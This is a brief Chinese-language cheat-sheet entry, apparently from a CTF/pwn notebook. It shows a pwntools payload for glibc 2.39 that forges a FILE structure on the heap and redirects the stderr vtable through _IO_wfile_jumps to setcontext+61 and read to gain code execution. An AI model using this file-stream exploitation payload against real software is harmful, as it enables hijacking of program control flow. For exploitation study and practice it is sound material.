 ‍

‍

## 打 stderr 高版本 (v1)

‍

glibc 2.39

‍

```python
# glibc 2.39
fake_IO_addr = heap_base + 0xbd0
RCE  = setcontext + 61
RCE2 = read

pay = flat({
    0x00: 0,
    0x20: fake_IO_addr,
    0x28: 0xffffffff,
    0x60: RCE,
    0x68: 0x0,          # rdi
    0x70: fake_IO_addr, # rsi
    0x88: fake_IO_addr, # rdx
    0xA0: fake_IO_addr,
    0xA8: RCE2,
    0xC0: 1, # mode
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
    0xe0: fake_IO_addr + 0x48,
}, filler=b"\x00")
```

‍

- 我写的大部分都是调用这个，只要保证 call 虚表的时候 call 的是 `_IO_wfile_seekoff`​

![image](assets/image-20241107201823-o6pwrr6.png)
